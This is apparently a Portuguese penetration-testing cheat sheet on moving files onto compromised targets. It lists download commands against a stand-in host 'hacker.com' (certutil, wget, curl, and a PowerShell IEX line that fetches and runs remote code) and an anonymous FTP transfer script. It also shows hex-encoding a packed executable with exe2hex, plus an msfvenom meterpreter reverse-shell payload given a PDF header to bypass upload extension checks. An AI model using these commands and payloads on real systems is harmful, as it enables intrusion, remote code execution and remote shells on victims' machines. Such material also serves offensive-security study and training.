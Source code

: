 # Transferência de arquivos

## Servidor Web

### Servidor
```
python3 -m http.server 80
```

### Alvo - Windows  
```
certutil.exe -urlcache -f http://hacker.com/arquivo.exe arquivo.exe  
powershell.exe wget http://hacker.com/arquivo.exe arquivo.exe -OutFile arquivo.exe  
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://hacker.com/arquivo.exe','arquivo.exe') 
powershell.exe IEX(New-Object System.Net.WebClient).DownloadString('http://hacker.com/arquivo.txt') 
``` 

### Alvo - Linux
```  
wget http://hacker.com/arquivo.exe -O /tmp/arquivo.exe 
curl http://hacker.com/arquivo.exe -o /tmp/arquivo.exe 
```

## FTP

### Servidor
```
pip install pyftpdlib
python3 -m pyftpdlib -p 21 --write
```
### Windows
```
# Gravar instruções em arquivo .txt
echo open host > steps.txt
echo USER anonymous >> steps.txt
echo PASS anonymous >> steps.txt
echo bin >> steps.txt
echo GET *.exe >> steps.txt
echo QUIT

# Executar as instruções no alvo
ftp -v -n -s:steps.txt
```

## Hexadecimal

### Windows
É possível encodar um executável em string e decodar no alvo.  
O primeiro passo é reduzir o tamanho do executável.

`upx -9 arquivo.exe`

Para encodar o executável vamos usar o `exe2hex` com a opção `-p` indicando que será decodado pelo Powershell. Outra opção seria utilizar a flag `-b` indicando que seria decodado pelo Batch.  

```
exe2hex -x arquivo.exe -p arquivo.txt
```

A saída é um arquivo txt com todo o executável em hexadecimal, copie o conteúdo do arquivo e cole no terminal do alvo.  
No final da execução o executável será recriado na máquina alvo.

## Via upload web com validação de extensão  

Primeira ação é gerar um payload da shell reversa usando `msfvenom`.

```
msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=$LHOST lport=$LPORT -f elf > shell
```

Módulo para ouvir a porta no Metasploit:
```
exploit/multi/handler
# Payload
linux/x86/meterpreter/reverse_tcp
```
No exemplo vamos realizar o bypass na validação de extensões .pdf, primeiro criamos um arquivo chamado `header` e no seu conteúdo incluímos `%PDF-1.3`. Depois é só juntar os dois arquivos com o comando `cat header shell > payload.pdf`.

Após realizar o upload do arquivo malicioso, precisamos remover a extensão .pdf para que possamos executa-lo.

```
tail -n +2 payload.pdf > payload
```
